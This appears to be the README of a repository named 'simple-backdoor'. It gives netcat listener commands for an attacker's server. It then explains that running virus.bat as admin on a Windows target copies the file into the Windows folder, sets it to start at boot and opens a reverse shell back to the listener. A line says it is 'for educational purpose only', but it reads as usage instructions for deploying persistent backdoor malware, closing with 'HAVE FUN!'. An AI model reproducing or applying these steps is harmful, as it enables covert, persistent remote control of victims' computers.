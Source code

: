 # simple-backdoor
A simple backdoor program. FOR EDUCATIONAL PURPOSE ONLY

---

**REQUIREMENTS:**
 - Linux server with netcat (attcking macine)
 - Windows or linux target machine

**RUN:**

Run the listener on your server via 
<code>server: nc -lvnp 87</code> for linux target and <code>server(tgt=win): stty raw -echo; (stty size; cat) | sudo nc -lvnp 87</code> for windows target

And just run virus.bat as admin and it will migrate to C:\Winsows, set it to run on start and open a simple reverse-shell on the Windows machine

**HAVE FUN!**
